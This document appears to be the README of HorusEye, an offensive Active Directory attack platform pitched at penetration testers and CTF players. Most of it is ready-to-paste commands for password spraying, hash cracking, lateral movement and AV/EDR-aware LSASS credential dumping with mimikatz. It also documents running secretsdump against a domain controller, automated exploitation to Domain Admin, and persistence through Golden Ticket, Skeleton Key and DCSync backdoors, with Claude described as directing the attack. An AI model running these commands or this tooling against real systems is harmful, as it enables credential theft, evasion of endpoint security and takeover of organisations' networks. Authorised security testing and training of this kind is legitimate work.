








<div align="center">

```
 ██╗  ██╗ ██████╗ ██████╗ ██╗   ██╗███████╗
 ██║  ██║██╔═══██╗██╔══██╗██║   ██║██╔════╝
 ███████║██║   ██║██████╔╝██║   ██║███████╗
 ██╔══██║██║   ██║██╔══██╗██║   ██║╚════██║
 ██║  ██║╚██████╔╝██║  ██║╚██████╔╝███████║
 ╚═╝  ╚═╝ ╚═════╝ ╚═╝  ╚═╝ ╚═════╝ ╚══════╝
 ███████╗██╗   ██╗███████╗
 ██╔════╝╚██╗ ██╔╝██╔════╝
 █████╗   ╚████╔╝ █████╗    v2.0
 ██╔══╝    ╚██╔╝  ██╔══╝
 ███████╗   ██║   ███████╗
 ╚══════╝   ╚═╝   ╚══════╝
```

**AI-Powered Active Directory Attack Platform**


*Made with care by **Omar Tamer** — Egypt*

</div>

---

## Why HorusEye?

Active Directory is the backbone of nearly every enterprise Windows environment, and the most common path to full domain compromise in penetration tests and CTF challenges like HackTheBox Pro Labs (RastaLabs, Offshore, Cybernetics, Dante), OSCP, LPT Master, and CPENT. The problem is that the toolchain is fragmented: BloodHound shows you attack paths and gives you generic commands, but when you're staring at a real engagement with 400 users, 12 service accounts, and nested group memberships, those generic commands leave you piecing things together manually. Impacket gives you execution but no analysis. Certipy gives you ADCS findings but no context on which template is actually worth pursuing first. HorusEye connects all of these. It ingests output from BloodHound, Certipy, ldapdomaindump, and CrackMapExec, scores every attack path by exploitability against your specific environment, and gives you exact commands tailored to the accounts and configurations it actually found, not a textbook example.

HorusEye connects all of these. It ingests output from BloodHound, Certipy, ldapdomaindump, and CrackMapExec, detects 13 attack path types, scores them by exploitability, and then tells you exactly what to run and in what order. The built-in Claude AI layer adds a narrative explanation to each finding so you understand not just *what* is vulnerable but *why* it matters and *how* to chain it.

For CTF players specifically: HorusEye automates the reconnaissance-to-privilege-escalation pipeline that normally takes hours of manual work. You run SharpHound, feed the output to HorusEye, and within seconds you have a ranked list of attack paths from your current user to Domain Admin, with ready-to-paste commands for each step.

---

## Contents

- [Features](#features)
- [Installation](#installation)
- [Quick Start](#quick-start)
- [Input Sources](#input-sources)
- [Attack Detection](#attack-detection)
- [Hash Cracking Engine](#hash-cracking-engine)
- [Username Wordlist Generator](#username-wordlist-generator)
- [Password Spraying](#password-spraying)
- [Lateral Movement Engine](#lateral-movement-engine)
- [Attack Timeline](#attack-timeline)
- [Auto-Exploit Chain](#auto-exploit-chain)
- [LSASS Dump Automation](#lsass-dump-automation)
- [Domain Takeover Checklist](#domain-takeover-checklist)
- [Team Collaboration](#team-collaboration)
- [Credentials Manager](#credentials-manager)
- [AI Analysis](#ai-analysis)
- [Reports](#reports)
- [Full CLI Reference](#full-cli-reference)
- [CTF Usage Guide](#ctf-usage-guide)

---

## Features

| Category | Feature | Description |
|---|---|---|
| **Input** | BloodHound | Parses SharpHound JSON — users, groups, ACLs, sessions |
| **Input** | Certipy | Parses ADCS vulnerability output (ESC1-ESC8) |
| **Input** | ldapdomaindump | Parses LDAP enumeration output |
| **Input** | CrackMapExec | Parses CME scan results |
| **Input** | nxc | Parses nxc scan results |
| **Input** | Manual | Interactive prompt when no files are available |
| **Detection** | 13 Attack Types | Full list below |
| **Detection** | Path Scoring | Ranks findings by impact × ease |
| **Detection** | AI Narratives | Claude explains each finding in plain English |
| **Offense** | Hash Cracking | 3-round hashcat engine with AD-specific patterns |
| **Offense** | Wordlist Gen | 18+ username format variants from AD users |
| **Offense** | Password Spray | Multi-threaded, lockout-safe SMB/LDAP spraying |
| **Offense** | Lateral Movement | Auto-maps reachable hosts after creds obtained |
| **Offense** | LSASS Dump | AV-aware method selection (nanodump/comsvcs/procdump) |
| **Offense** | Auto-Chain | Kerberoast → crack → validate → pivot automatically |
| **Offense** | Auto-Exploit | Full automated path to DA execution |
| **Offense** | Auto-Persist | Golden Ticket, Skeleton Key, DCSync backdoor |
| **Reporting** | Attack Timeline | Visual T+0 to DA timeline with exact commands |
| **Reporting** | DA Checklist | 25-item step-by-step domain takeover checklist |
| **Reporting** | HTML Report | Dark-themed report with all findings and commands |
| **Reporting** | JSON Export | Machine-readable output for pipeline integration |
| **Creds** | Credentials Manager | Central store, dedup, saves to `valid_credentials.txt` |
| **Ops** | Team Collaboration | Real-time shared session for multiple operators |
| **Ops** | Config | Persistent config file for API keys and preferences |

---

## Installation

**Requirements:** Kali Linux (recommended), Python 3.9+

```bash
git clone https://github.com/Omar-tamerr/horuseye
cd horuseye
pip3 install -r requirements.txt --break-system-packages
```

**Dependencies:**
```
rich>=13.0
impacket>=0.11
ldap3>=2.9
requests>=2.28
```

**Optional (for hash cracking):**
```bash
apt install hashcat wordlists
gunzip /usr/share/wordlists/rockyou.txt.gz
```

**Optional (for AI analysis):**
```bash
python3 horuseye.py --config --claude-key YOUR_ANTHROPIC_KEY
```

---

## Quick Start

```bash
# Analyze BloodHound output + Certipy output
python3 horuseye.py --bloodhound ./bloodhound/ --certipy certipy.json \
    --domain corp.local --dc 10.10.10.5

# Full automated run: analyze → crack → lateral movement
python3 horuseye.py --bloodhound ./bh/ --certipy certipy.json \
    --domain corp.local --dc 10.10.10.5 \
    --auto-chain --timeline --da-checklist --report report.html

# No files yet? Use manual input
python3 horuseye.py --manual --domain corp.local --dc 10.10.10.5

# CTF one-liner: wordlist → spray → analyze
python3 horuseye.py --bloodhound ./bh/ --make-wordlist --output users.txt \
    --spray --password 'Password123' --domain corp.local --dc 10.10.10.5 --safe
```

---

## Input Sources



HorusEye accepts output from four major AD enumeration tools, or manual input when you only have partial information.

**BloodHound (recommended)**
```bash
# Collect with SharpHound on Windows target
SharpHound.exe -c All --zipfilename bloodhound.zip

# Or from Linux with bloodhound-python
bloodhound-python -d corp.local -u user -p pass -ns 10.10.10.5 -c All

# Feed to HorusEye
python3 horuseye.py --bloodhound ./bloodhound_output/
```

**Certipy (ADCS)**
```bash
certipy find -u user@corp.local -p pass -dc-ip 10.10.10.5 -json
python3 horuseye.py --certipy ./certipy_output.json
```

**ldapdomaindump**
```bash
ldapdomaindump -u 'corp\user' -p pass ldap://10.10.10.5 -o ./ldap/
python3 horuseye.py --ldap ./ldap/
```

**CrackMapExec**
```bash
cme smb 10.10.10.0/24 -u user -p pass --shares > cme_output.txt
python3 horuseye.py --cme cme_output.txt
```

**NetExec (recommended over CME)**
```bash
nxc smb 10.10.10.0/24 -u user -p pass --shares 2>&1 | tee nxc.txt
python3 horuseye.py --nxc nxc.txt --domain corp.local --dc 10.10.10.5
```

**Combined (best results)**
```bash
python3 horuseye.py \
    --bloodhound ./bh/ \
    --certipy certipy.json \
    --ldap ./ldap/ \
    --cme cme.txt \
	--nxc nxc.txt \
    --domain corp.local \
    --dc 10.10.10.5
```

---

## Attack Detection



HorusEye detects 13 attack path types. Each finding includes severity, affected accounts, ready-to-paste exploitation commands, and an AI-generated attack narrative.

| # | Attack Type | Severity | What it detects |
|---|---|---|---|
| 1 | **Kerberoasting** | HIGH/CRITICAL | Service accounts with SPNs, DA members prioritized |
| 2 | **AS-REP Roasting** | HIGH | Accounts with DONT_REQUIRE_PREAUTH set |
| 3 | **DCSync** | CRITICAL | Accounts with Replicating Directory Changes rights |
| 4 | **ACL Abuse** | CRITICAL | GenericAll, WriteDacl, WriteOwner, ForceChangePassword, AddMember |
| 5 | **GPO Abuse** | HIGH | Write access on Group Policy Objects |
| 6 | **Unconstrained Delegation** | CRITICAL | Computers/users with unconstrained Kerberos delegation |
| 7 | **Constrained Delegation** | HIGH | MSDS-AllowedToDelegateTo misconfigurations |
| 8 | **Pass-the-Hash** | HIGH | Reusable NTLM hashes from privileged sessions |
| 9 | **ADCS ESC1-ESC8** | CRITICAL | All Certipy ADCS vulnerability classes |
| 10 | **Domain Trusts** | MEDIUM/HIGH | Cross-domain trust relationships |
| 11 | **Privileged Sessions** | HIGH | DA/EA sessions on accessible workstations |
| 12 | **Weak Password Policy** | MEDIUM | Lockout threshold, minimum length, complexity |
| 13 | **Stale Admin Accounts** | LOW/MEDIUM | Inactive accounts with elevated privileges |

Findings are scored 0-100 and sorted by exploitability. CRITICAL findings include a direct chain to Domain Admin.

---

## Hash Cracking Engine



Three-round cracking strategy designed for Active Directory environments. All cracked credentials are automatically appended to `valid_credentials.txt`.

**Round 1 — AD-specific patterns** (runs first, fastest)
Generates 230+ corporate password candidates including company name, current/previous year, and season combinations:
`Corp2024!`, `Welcome2024!`, `Summer2024!`, `Password2024!`, `Corp@2025`, etc.

**Round 2 — Wordlist + rules**
Runs rockyou.txt (or any wordlist) through hashcat rule mutations. Default: `best64` (64 common transforms). Options: `dive`, `d3ad0ne`, `rockyou-30000`.

**Round 3 — Hybrid mask** (small hash sets only)
Appends year/number suffixes to wordlist words: `word + ?d?d?d?d`, `word + !year`.

**Supported hash types:**

| Flag | Type | Hashcat Mode |
|---|---|---|
| `kerberoast` | Kerberoast TGS-RC4 | 13100 |
| `asrep` | AS-REP Roast | 18200 |
| `ntlm` | NTLM | 1000 |
| `ntlmv2` | NetNTLMv2 | 5600 |
| `mscache2` | MS-Cache v2 (DCC2) | 2100 |

```bash
# Crack a file of Kerberoast hashes
python3 horuseye.py --crack hashes.txt --hash-type kerberoast

# Crack NTLM hashes with aggressive rules
python3 horuseye.py --crack ntlm.txt --hash-type ntlm --rules aggressive

# Show available wordlists and rules
python3 -c "from hash_cracker import HashCrackingEngine; e=HashCrackingEngine(); e.show_wordlists(); e.show_rules()"

# AS-REP roast + crack inline
python3 horuseye.py --bloodhound ./bh/ --domain corp.local --dc 10.10.10.5 --auto-chain
```

Hash type is auto-detected if not specified. Cracked hashes are written immediately to `./horuseye_output/valid_credentials.txt`.

---

## Username Wordlist Generator

Generates username variants from real AD users or a names list. 18 format patterns per name.

**Generated formats for `John Smith`:**

| Format | Example |
|---|---|
| `first.last` | `john.smith` |
| `flast` | `jsmith` |
| `f.last` | `j.smith` |
| `lastf` | `smithj` |
| `first_last` | `john_smith` |
| `adm_flast` | `adm_jsmith` |
| `svc_flast` | `svc_jsmith` |
| `firstlast` | `johnsmith` |
| `FLAST` | `JSMITH` |
| `First.Last` | `John.Smith` |
| + 8 more... | |

```bash
# From BloodHound users (most accurate)
python3 horuseye.py --bloodhound ./bh/ --domain corp.local --make-wordlist --output users.txt

# From a names file
python3 horuseye.py --make-wordlist --users-file names.txt --output wordlist.txt

# Single name
python3 horuseye.py --make-wordlist --firstname John --lastname Smith --output john.txt
```

---

## Password Spraying

Multi-threaded password sprayer with lockout protection. Supports SMB (primary) and LDAP (fallback) authentication.

```bash
# Basic spray
python3 horuseye.py --spray --users-file users.txt --password 'Password123' \
    --domain corp.local --dc 10.10.10.5

# Safe mode: stops automatically if lockout detected
python3 horuseye.py --spray --users-file users.txt --password 'Summer2024!' \
    --domain corp.local --dc 10.10.10.5 --safe --delay 2.0 --jitter 0.5

# Multiple passwords from file
python3 horuseye.py --spray --users-file users.txt --passwords-file passes.txt \
    --domain corp.local --dc 10.10.10.5 --safe --threads 3
```

**Options:**

| Flag | Default | Description |
|---|---|---|
| `--safe` | off | Auto-stop on first lockout detected |
| `--delay` | 1.0s | Delay between each attempt |
| `--jitter` | 0.5s | Random jitter added to delay |
| `--threads` | 5 | Concurrent threads |

Valid credentials are saved to `valid_credentials.txt` immediately on discovery.

---

## Lateral Movement Engine



After obtaining credentials, maps every reachable host on the network. Multi-threaded port scan → credential test → admin detection → share enumeration.

```bash
python3 horuseye.py --pivot \
    --target-network 10.10.10.0/24 \
    -u svc-sql -p 'ServicePass2024!' \
    --domain corp.local --dc 10.10.10.5
```

**What it does:**
1. Port scans the target range for SMB (445), WinRM (5985), RDP (3389), LDAP (389), MSSQL (1433)
2. Tests credentials on every live SMB host
3. Probes `ADMIN$` share to confirm local admin rights
4. Enumerates accessible shares (flags SYSVOL, C$, backup, data)
5. Saves all admin hosts to `valid_credentials.txt` with format `ADMIN:IP:hostname:domain\user`

Outputs a table of reachable hosts with protocol icons, admin status, and next-step commands for each admin host.

---

## Attack Timeline



Builds a visual ASCII timeline from your current position to Domain Admin, with time estimates for each step.

```bash
python3 horuseye.py --bloodhound ./bh/ --domain corp.local --timeline
```

Phases: `FOOTHOLD` → `ESCALATION` → `LATERAL` → `DA` → `PERSIST`

Each step shows:
- Estimated elapsed time (T+Xm)
- Exact command to run
- AI narrative explaining the step
- Time estimate to crack (for Kerberoast/AS-REP)

Export to plain text for reports:
```bash
python3 -c "
from attack_timeline import AttackTimeline
tl = AttackTimeline()
tl.build_from_findings(findings, 'corp.local')
tl.export_timeline_txt('timeline.txt', 'corp.local')
"
```

---

## Auto-Exploit Chain

Automated end-to-end exploitation without manual steps.

```bash
# Kerberoast → crack → validate → pivot
python3 horuseye.py --bloodhound ./bh/ --domain corp.local --dc 10.10.10.5 --auto-chain

# Full path to DA
python3 horuseye.py --bloodhound ./bh/ --domain corp.local --dc 10.10.10.5 --auto-exploit

# After DA: suggest and execute persistence
python3 horuseye.py --bloodhound ./bh/ --domain corp.local --dc 10.10.10.5 \
    --auto-exploit --auto-persist

# Interactive: AI asks before every action
python3 horuseye.py --bloodhound ./bh/ --domain corp.local --dc 10.10.10.5 --interactive
```

In `--interactive` mode, HorusEye acts as a senior red team operator. It presents ranked options at each decision point and waits for your confirmation before executing.

---

## LSASS Dump Automation

Detects installed AV/EDR on the target and selects the best LSASS dump method automatically.

```bash
python3 horuseye.py --lsass-dump 10.10.10.10 \
    -u svc-sql -p 'ServicePass2024!' --domain corp.local
```

**Method selection logic:**

| Detected AV | Selected Method | Stealth Score |
|---|---|---|
| CrowdStrike / SentinelOne | nanodump | 10/10 |
| Windows Defender | comsvcs (rundll32) | 8/10 |
| None detected | comsvcs (rundll32) | 8/10 |
| Fallback | procdump | 5/10 |

After dumping, extract with:
```bash
pypykatz lsa minidump lsass.dmp
# or
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords full
```

---

## Domain Takeover Checklist



25-item interactive checklist covering every phase of a domain takeover. Items auto-check based on what HorusEye has already found and executed.

```bash
python3 horuseye.py --bloodhound ./bh/ --domain corp.local --da-checklist
```

Categories: FOOTHOLD → RECON → CRED → LATERAL → ESCALATION → DA → PERSIST → REPORT

Items marked `(auto)` are checked automatically when HorusEye detects or completes that step. Manual items require your confirmation.

---

## Team Collaboration



Real-time shared session over TCP port 31337. One operator hosts, others connect. All findings, cracked hashes, and credentials are broadcast to every connected operator instantly.

```bash
# Operator 1: start the server
python3 horuseye.py --team-server --team-port 31337

# Operator 2: join and run analysis simultaneously
python3 horuseye.py --team-connect 10.10.10.1:31337 \
    --bloodhound ./bh/ --domain corp.local --dc 10.10.10.5

# With password protection
python3 horuseye.py --team-server --team-port 31337
# set password in config, others pass it with --team-connect
```

What gets shared in real-time:
- New attack path findings
- Valid credentials discovered
- Cracked hashes
- Checklist item updates
- Chat messages between operators

Operators joining late receive a full state sync of everything found so far.

---

## Credentials Manager



Every credential found by any module (spray, kerberoast, AS-REP, crack, lateral movement, DCSync) is funnelled through a central manager with automatic deduplication.

**Output files:**

`valid_credentials.txt` — Human-readable, one credential per line:
```
corp.local\svc-sql:ServicePass2024!  # kerberoast [2025-01-15 14:32:11]
corp.local\jsmith:Password123        # spray [2025-01-15 14:45:03]
corp.local\Administrator:<NTLM>      # dcsync [DA] [2025-01-15 15:01:44]
```

`valid_credentials.json` — Structured JSON for pipeline integration:
```json
{
  "credentials": [
    {
      "domain": "corp.local",
      "username": "svc-sql",
      "password": "ServicePass2024!",
      "source": "kerberoast",
      "is_da": false,
      "is_admin": true
    }
  ]
}
```

```bash
# Quick use with impacket after HorusEye run
secretsdump.py corp.local/svc-sql:ServicePass2024!@10.10.10.5
crackmapexec smb 10.10.10.0/24 -u svc-sql -p ServicePass2024!
```

---

## AI Analysis

HorusEye uses Claude (Anthropic) to provide:
- Plain-English explanation of each finding
- Attack chain narrative ("svc-sql TGS can be cracked offline — account is DA member. Kerberoast → crack → DCSync is the fastest path")
- Impact assessment
- Prioritization reasoning

```bash
# Set API key
python3 horuseye.py --config --claude-key YOUR_KEY

# Deep analysis mode (more detailed narratives)
python3 horuseye.py --bloodhound ./bh/ --domain corp.local --deep

# Skip AI (rules-only mode, faster)
python3 horuseye.py --bloodhound ./bh/ --domain corp.local --no-ai
```

AI analysis is optional. All detection, cracking, and exploitation features work without an API key.

---

## Reports

```bash
# HTML report (dark theme, all findings + commands)
python3 horuseye.py --bloodhound ./bh/ --domain corp.local --report report.html

# JSON export
python3 horuseye.py --bloodhound ./bh/ --domain corp.local --json findings.json

# Filter by severity
python3 horuseye.py --bloodhound ./bh/ --domain corp.local --severity critical
python3 horuseye.py --bloodhound ./bh/ --domain corp.local --severity high
```

---

## Full CLI Reference

```
AD Input Sources:
  --bloodhound DIR      BloodHound JSON folder (SharpHound output)
  --ldap DIR            ldapdomaindump output folder
  --cme FILE            CrackMapExec output file
  --nxc FILE            NetExec (nxc) output — modern CrackMapExec replacement
  --certipy FILE        Certipy JSON output
  --manual              Interactive manual input mode

Target:
  --domain DOMAIN       Target domain (e.g. corp.local)
  --dc IP               Domain Controller IP

Automation:
  --interactive         AI-guided interactive mode (confirm each step)
  --auto-exploit        Auto-exploit best path to Domain Admin
  --auto-pivot          Re-enumerate after new credentials found
  --auto-persist        Suggest persistence after DA achieved
  --auto-chain          Kerberoast → crack → validate → pivot chain
  --timeline            Visual attack timeline T+0 to DA
  --da-checklist        25-item domain takeover checklist

Exploitation:
  --winrm HOST          WinRM connect + privilege analysis
  --lsass-dump HOST     AV-aware LSASS dump (auto-selects method)
  --pivot               Lateral movement network mapping
  --target-network CIDR Network range for pivot scan
  -u, --username USER   Username for authentication
  -p, --password PASS   Password for authentication
  -H, --hash HASH       NTLM hash (Pass-the-Hash)

Hash Cracking:
  --crack FILE          Crack hashes from file
  --hash-type TYPE      kerberoast | asrep | ntlm | ntlmv2 | mscache2
  --wordlist FILE       Wordlist path or name (rockyou, fasttrack, ...)
  --rules PROFILE       fast | medium | aggressive | corporate
  --crack-timeout INT   Max seconds per hashcat round (default: 300)

Wordlist + Spray:
  --make-wordlist       Generate username wordlist
  --users-file FILE     Input users/names file
  --firstname NAME      Single first name
  --lastname NAME       Single last name
  --output FILE         Output file (default: usernames.txt)
  --spray               Run password spraying
  --password PASS       Single password to spray
  --passwords-file FILE Multiple passwords to spray
  --delay FLOAT         Delay between attempts (default: 1.0s)
  --jitter FLOAT        Random jitter added to delay (default: 0.5s)
  --threads INT         Concurrent threads (default: 5)
  --safe                Stop automatically on lockout detection

Team Collaboration:
  --team-server         Start collaboration server
  --team-connect HOST   Connect to existing session (HOST:PORT)
  --team-port INT       Port for collaboration server (default: 31337)

AI + Output:
  --claude-key KEY      Anthropic API key
  --no-ai               Skip Claude AI analysis
  --deep                Deep AI analysis mode
  --report FILE         Export HTML report
  --json FILE           Export JSON findings
  --severity LEVEL      Filter: critical | high | all
  --config              Configure persistent settings
```

---

## CTF Usage Guide

**HackTheBox Pro Labs / Active Directory machines**

```bash
# Step 1: Collect with SharpHound (run on Windows target)
SharpHound.exe -c All --zipfilename bh.zip
# Transfer to Kali and extract

# Step 2: ADCS enumeration (if CA present)
certipy find -u user@corp.local -p pass -dc-ip DC_IP -json

# Step 3: Run HorusEye
python3 horuseye.py \
    --bloodhound ./bh/ \
    --certipy certipy.json \
    --domain corp.local \
    --dc DC_IP \
    --timeline \
    --da-checklist \
    --report report.html

# Step 4: If Kerberoastable accounts found
python3 horuseye.py --auto-chain --domain corp.local --dc DC_IP \
    -u user -p pass

# Step 5: After creds, lateral movement
python3 horuseye.py --pivot --target-network 10.10.10.0/24 \
    -u svc-sql -p 'ServicePass2024!' --domain corp.local --dc DC_IP
```

**Common CTF scenarios HorusEye handles automatically:**

- `ADCS ESC1` — Template allows SAN → request cert as DA → PKINIT → NTLM hash
